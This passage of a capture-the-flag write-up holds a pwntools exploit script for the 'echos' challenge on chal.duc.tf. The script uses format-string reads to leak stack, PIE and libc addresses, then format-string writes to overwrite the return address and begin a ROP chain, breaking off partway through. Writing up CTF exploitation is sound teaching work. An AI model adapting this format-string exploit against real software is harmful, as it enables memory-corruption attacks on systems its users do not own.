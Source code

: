 ```python
```

## My first echo server

1. I am too lazy to write format string payloads by hand. SO i used library to write it for me.

```python
#!/usr/bin/python3
from pwn import *
from formatstring import *
from past.builtins import xrange
from time import sleep
import random

exe = ELF('./echos')
libc = ELF('./libc6_2.27-3ubuntu1_amd64.so')

####Exploit
if __name__=='__main__':
#	io = process([exe.path],env={'LD_PRELOAD':libc.path})
	io = remote('chal.duc.tf',30001)
	settings = PayloadSettings(offset=8,arch=x86_64)
	p = WritePayload()
	io.sendline('|%6$p|%18$p|%19$p|')
	leaks = io.recvline().strip().split(b'|')
	print(leaks)
	stack_leak = int(leaks[1],0)
	pbase = int(leaks[2],0)-0x890
	libc_base = int(leaks[3],0)-0x21b97

	print("stack= ",hex(stack_leak))
	print("PIE = ", hex(pbase))
	print("libc= ",hex(libc_base))

	return_addr = stack_leak+0x48
	var = stack_leak-0x14
	D = WritePayload()
	D[var] = p64(0xfffffffffffffff0)
	payload2 = D.generate(settings)
	io.sendline(payload2)
	print(hex(return_addr))

#	io.recv()
	psss = 0x000008f3
	get = 0x80120
	ret = 0x00000731
	print(hex(pbase+psss))
	pause()
	io.sendline('A')
	io.recvuntil('A')

	peo = WritePayload()
	peo[return_addr] = p64(pbase+psss)
	j = peo.generate(settings)
	io.sendline(j)

	ppp = WritePayload()
	ppp[return_addr+0x8] = p64(libc_base+0x1b3e9a)
	asd = ppp.generate(settings)
	io.sendline(asd)

	kkk = WritePayload()
	kkk[return_addr+0x10] = p64(pbase+ret)
```